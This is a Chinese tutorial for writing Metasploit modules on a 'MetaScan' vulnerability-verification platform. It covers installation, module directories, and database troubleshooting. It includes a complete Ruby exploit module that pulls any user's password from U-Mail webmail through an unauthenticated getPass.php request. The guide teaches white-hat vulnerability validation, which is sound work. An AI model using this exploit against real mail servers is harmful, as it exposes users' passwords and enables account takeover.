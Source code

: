 ﻿快速入门
========

简介
^^^^

MetaScan漏洞验证平台基于metasploit-framework框架而推，基于这个框架，你可以编写出属于你自己的漏洞验证模块，编写模块的相关说明，此文档将做详细的描述，同时我们也会奉上例子供您参考。期待您的加入，让我们一同成为安全牛。

环境配置
^^^^^^^^

**1. 下载程序**

磨刀不误砍柴工，在写模块之前需要搭建好相关环境。如果你是个勤劳的白帽子，我们建议您在*nix系统中完整的安装一次Metasploit，有助于对该框架的多一些了解，不过，熟悉kali的人大都知道系统自身带有现成的环境。Metasploit和Kali Linux的相关下载地址参考如下：

* `Metasploit官方下载 <http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run>`_
* `Kali Linux官方下载 <https://www.kali.org/downloads/>`_

**2. 安装程序**

Metasploit因存在windows和linux两个版本，windows下的安装方式较为常规，此处只介绍在linux系统下的安装方法。

a、添加执行权限

64位::

    chmod +x /path/to/metasploit-latest-linux-x64-installer.run

32位::

    chmod +x /path/to/metasploit-latest-linux-installer.run

b、以root权限运行安装程序

64位::

    sudo /path/to/metasploit-latest-linux-x64-installer.run

32位::

    sudo /path/to/metasploit-latest-linux-installer.run

c、在出现Metasploit的安装窗口之后，均按默认选项执行并单击‘Forward’即可完成安装。
 
.. note::

    编写Metaplosit模块所使用的语言是ruby， Metasploit和Kali Linux在安装完成后均包含了需要的ruby环境，用户可以直接进行相关操作，至于IDE以及Metasploit的两个不同平台的版本选择，此处不做推荐，可以根据自身熟悉情况而定。

**3. 相关目录**

进入Metasploit的目录::

    cd /opt/metasploit/apps/pro/msf3/modules/

.. note::
    该目录存放的主要是漏洞验证相关的模块，用户所写的相关漏洞验证模块均存放在此目录下，感兴趣的白帽子也可以写一些工具性的模块，工具性的模块主要存放在/opt/metasploit/apps/pro/msf3/modules/auxiliary目录中，但类似这些模块均不在此文档中做说明，用户可自行研究。

编写模块
^^^^^^^^

**1. 编写规范**

参考如下:

    https://ruby-china.org/wiki/coding-style

**2. 示例参考**

以乌云上的漏洞来源为例子：http://www.wooyun.org/bugs/wooyun-2010-061894/（用户在写模块时，可自行从网上搜索漏洞）

U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，指定为一个已存在的邮箱账号即可查看任意账户密码。

新建一个新的利用模块umail_pass.rb
::

    cd /opt/metasploit/apps/pro/msf3/modules/exploits
    vi umail_pass.rb

示例代码如下:

.. code-block:: ruby
   :linenos:

    #encoding:utf-8
    require 'msf/core'
    class Metasploit3 < Msf::Exploit::Remote
      Rank = ExcellentRanking
      include Msf::Exploit::Remote::HttpClient
    
      def initialize(info={})
        super(update_info(info,
            'Name'           => "U-Mail System Unauthorized Access Vulnerability",
            'Description'    => %q{
              　　U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，当updata参数的值为s，只需将email参数的值指定为一个已存在的邮箱账号即可查看任意账户密码。
            },
            'License'        => MSF_LICENSE,
            'Author'         =>
              [
              'Rain'    #Metasploit-CNNS
            ],
            'Platform'        => [ 'php' ],
            'Arch'           => ARCH_PHP,
            'Targets'        =>[[ 'U-Mail', { }]],
            'Privileged'     => false,
            'DisclosureDate' => "Apr 11 2011",
            'DefaultTarget'  => 0))
        register_options(
          [
            OptString.new('RHOST', [true, 'The DOMAIN', '']), 
            OptString.new('RPORT', [true, 'The port', '80']),
            OptString.new('TARGETURI', [true, 'The base path to U-Mail', '/webmail/']),
            OptString.new('EMAIL', [true, 'The email to U-Mail', '']),
          ], self.class)
      end
    
      def exploit
        begin
    	    res = send_request_cgi( {
    	        'method' => "GET",
    	        'uri'    => normalize_uri(datastore['TARGETURI']) + "/getPass.php?update=s&email=#{datastore['EMAIL']}"
    	      }, 20)
        rescue ::Rex::ConnectionRefused, ::Rex::HostUnreachable, ::Rex::ConnectionTimeout
        rescue ::Timeout::Error, ::Errno::EPIPE
        end
          body_data = res.body.force_encoding('UTF-8')
          if body_data =~ /你的密码是/
            data = body_data.scan(/你的密码是\<\/p\>\<p\>\<center\>\<font color=red\>(.*?)\<\/font\>/)
            if data and data.first and data.first.first
              print_good("---------账号--------\n邮箱 = #{datastore['EMAIL']}, 密码 = #{data.first.first}", "good")
            else 
              print_error("漏洞利用失败！")
            end
          else
            print_error("漏洞利用失败！")
          end
      end
    end


常见问题
^^^^^^^^

``问题1``：使用search命令时返回如下内容：

.. image:: image/1.4.1.png

``解决1``：检查数据库的连接
在msf终端中查看postgresql的连接状态
db_status
若显示信息如下图所示，则表示数据库连接异常

.. image:: image/1.4.2.png

查看postgresql数据库服务是否开启
::

    ps -aux | grep -i postgresql 或 service postgresql status

查看postgresql端口情况
::

    netstat -tnpl | grep postgresql 或 netstat -tnpl | grep postgres

若服务和端口均不存在，则需要手动开启其服务
::

    service postgresql start 或 /etc/init.d/postgresql-*.* start	(请根据自身情况选择对应的版本)
	
之后退出msf终端，并再次msfconsole进入查看状态，若仍然未连接，则查看Metasploit的数据库配置文件之后，在msf终端下手动连接

Metasploit默认安装的情况下其数据库配置文件所在位置为::

    /opt/metasploit/apps/pro/ui/config/database.yml
	
手动连接命令为::

    db_connect username:password@127.0.0.1/dbname
